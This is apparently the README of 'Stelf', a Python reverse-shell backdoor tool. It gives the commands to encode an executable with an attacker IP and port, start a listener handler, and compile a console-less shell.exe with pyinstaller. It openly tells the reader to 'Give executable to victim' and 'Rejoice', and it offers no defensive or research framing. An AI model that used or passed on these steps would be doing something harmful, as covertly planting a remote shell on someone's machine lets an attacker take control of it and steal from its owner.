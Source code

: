 # Stelf
### Shell That Excercises Limited Fanfare

## Demo

[![asciicast](https://asciinema.org/a/agt46e0dpxo7ecrucvos6c5am.png)](https://asciinema.org/a/agt46e0dpxo7ecrucvos6c5am)

## Usage


##### Encode your executable:
```
python2 encode.py 192.168.1.5 8080 backdoor.exe
```
##### Start handler
```
python2 handler.py
```

##### Give executable to victim 

Rejoice

## Compiling the executable yourself - optional

#### Steps to Install:

- Install [Python2.7](https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi)
- Install [Microsoft Visual C++ 9.0](https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)
- pip install -r requirements.txt

##### Caveats
- `pypiwin32` is a Windows-only dep, so it was omitted from requirements.txt. If you are on windows and are using a section of the code that requires it, please `pip install -U pypiwin32` yourself.

##### Compile the shell manually:

```
pyinstaller --noconsole --onefile shell.py
```

Your file will be in dist/shell.exe

Enjoy!
